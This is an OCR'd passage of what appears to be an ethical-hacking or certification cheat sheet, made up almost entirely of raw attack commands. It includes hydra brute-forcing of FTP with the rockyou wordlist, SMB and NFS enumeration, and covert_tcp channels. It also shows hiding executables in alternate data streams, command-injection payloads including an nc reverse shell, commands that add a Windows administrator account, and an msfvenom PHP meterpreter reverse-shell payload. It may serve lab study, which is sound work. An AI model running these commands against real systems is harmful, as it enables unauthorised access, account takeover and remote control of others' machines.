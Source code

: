 5. FTP exploitation
	1. ftp <ip_address>
	2. ls
	3. hydra ‐l mike ‐P /usr/share/wordlists/rockyou.txt –v 10.10.223.20 ftp 
6. SMB exploitation
	1. ports: 139, 445 - netbios-ssn, microsoft-ds
	2. sudo nmap ‐‐script smb‐os‐discovery.nse 10.10.50.26
	3. Smbclient ‐L
	4. Smbclient //10.10.50.26/share
7. Telnet Exploitation
	1. port 23
	2. telnet $IP $PORT
8. Privileges escalation in NFS
	1. nmap -sV --script=nfs-showmount 192.168.1.102
	2. apt-get install nfs-common && showmount -e 192.168.1.102


**Steganography and Hiding Activities**

1. Covert Communication Channels
	1. wget https://raw.githubusercontent.com/cudeso/security‐tools/master/networktools/covert/covert_tcp.c
		1. sudo apt install gcc
		2. cc ‐o covert_tcp covert_tcp.c
		3. sudo ./covert_tcp ‐dest 192.168.18.144 ‐source 192.168.18.95 ‐source_port 8888 ‐dest_port 9999 ‐server ‐file /home/user/msg1.txt
		4. sudo ./covert_tcp ‐dest 192.168.18.144 ‐source 192.168.18.95 ‐source_port 9999 ‐dest_port 8888 ‐file /home/kali/msg.txt
2. Hide Files Using Alternate Data Streams
	1. type calc.exe >readme.txt:calc.exe
	2. mklink backdoor.exe readme.txt:calc.exe
3. White Space Steganography - Snow
	1. https://darkside.com.au/snow/
	2. SNOW.EXE -C -m "Somename is my name" -p "magic" test.txt test2.txt
	3. SNOW.EXE -C -p "magic" test2.txt
4. Image steganography
	1. https://www.openstego.com/
	2. https://stegonline.georgeom.net/upload


**Hacking Web Applications and Web Servers**

1. Command Execution Vulnerabilities - Linux
	1. 127.0.0.1 && ls
	2. 127.0.0.1 & ls
	3. 127.0.0.1 ; ls
	4. 127.0.0.1 | ls
	5. 127.0.0.1 |ls
	6. 127.0.0.1 && nc ‐c sh 127.0.0.1 9001
2. Command Execution Vulnerabilities - Windows
	1. Hostname
	2. Whoami
	3. Tasklist
	4. Taskkill /PID 3112 /F
	5. dir c:\
	6. net user
	7. net user test /add
	8. net localgroup Administrators test /add
	9. net user test
	10. dir c:\ "pin.txt"
	11. ! Take pin.txt
	12. type c:\"pin.txt“
3. File Upload Vulnerabilities
	1. msfvenom ‐p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 ‐f raw >exploit.php
	2. >use exploit/multi/handler set payload
	3. >php/meterpreter/reverse_tcp
